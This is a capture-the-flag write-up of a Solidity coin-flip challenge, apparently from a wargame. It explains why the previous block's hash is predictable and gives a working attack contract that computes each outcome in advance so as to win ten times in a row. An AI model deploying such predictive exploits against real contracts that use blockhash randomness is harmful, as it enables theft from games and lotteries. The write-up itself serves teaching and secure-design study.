


## Challenge
### Description
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip.
To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
Things that might help
See the "?" page above in the top right corner menu, section "Beyond the console"
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
## Background

---

A block is a single bundle of data stored on the blockchain. One block can contain multiple transactions.
In Solidity, built-in global variables provided by the EVM let you read the context of the currently executing transaction. For example, `block.number` is the number of the block containing the current transaction, and `msg.sender` is the address that called the current function.
Within one transaction, the same global variable has the same value. If the attack contract first reads `block.number` and `blockhash` and then calls the challenge contract's `flip` in the same transaction, both see the same block context.

---

`blockhash(uint)` is a built-in function that returns the hash of the given block number. This challenge uses the hash of the immediately preceding block, not the current block, as shown below.
```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
```
By the time the current transaction executes, block `block.number - 1` is already finalized. So this value is not random; it is a public value anyone can compute the same way.
Values like this must not be used as randomness. Anything the contract can compute internally, an attack contract can compute in exactly the same way.

---

`FACTOR` is the following value.
```solidity
57896044618658097711785492504343953926634992332820282019728792003956564819968
```
This value equals the following.
$$
2^{255}
$$

Since `blockValue` is a `uint256`, its possible range is as follows.
$$
0 \le blockValue \le 2^{256}-1
$$

So the division result can only be $0$ or $1$.
$$
\frac{blockValue}{2^{255}} \in \{0,1\}
$$

In other words, the challenge code decides the coin side as true if the previous block hash is greater than or equal to $2^{255}$, and false otherwise.
## Challenge code analysis

---

First, the win condition:
```solidity
uint256 public consecutiveWins;

constructor() {
    consecutiveWins = 0;
}
```
The goal is to raise `consecutiveWins` to 10. `consecutiveWins` is `public`, so its value can be read externally, but there is no function that changes it directly.
So we have to guess `flip` correctly in a row. A single wrong guess resets it to 0 in the code below.
```solidity
if (side == _guess) {
    consecutiveWins++;
    return true;
} else {
    consecutiveWins = 0;
    return false;
}
```

---

The coin side is decided as follows.
```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```
The coin side is determined by `blockhash(block.number - 1)` regardless of user input. But the previous block hash is already public, so the attacker can compute `side` in advance.
All we need is to run the same `side` computation logic in the attack contract. Passing the computed `side` as `_guess` to `flip` submits the correct answer every time.

---

The `lastHash` check also needs attention.
```solidity
if (lastHash == blockValue) {
    revert();
}

lastHash = blockValue;
```
This check prevents calling `flip` multiple times with the same previous block hash. Two calls within the same block share the same `block.number - 1`, so `blockValue` is the same and the second call reverts.
So calling it 10 times in a single transaction does not work. The attack contract's `flipattack` has to be called once per new block. Succeeding 10 times brings `consecutiveWins` to 10.
## Solution
The solution is simple. Run the same formula the challenge contract uses inside the attack contract to compute the `_guess` for this call beforehand.
The attack contract's `flipattack` reads the previous block hash, divides it by `FACTOR` to get `side`, then calls `coinflip.flip(side)`. Both happen within the same transaction, so the `block.number - 1` the challenge contract sees is the same as what the attack contract saw.
Because of the `lastHash` check, repeated calls in the same block revert. So call `flipattack` once per block, 10 times in total.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract attack {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    ICoinFlip coinflip;
    
    constructor(address addr) {
        coinflip=ICoinFlip(addr);
    }

    function flipattack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        
        if (lastHash == blockValue) {
            revert();
        }
        
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```


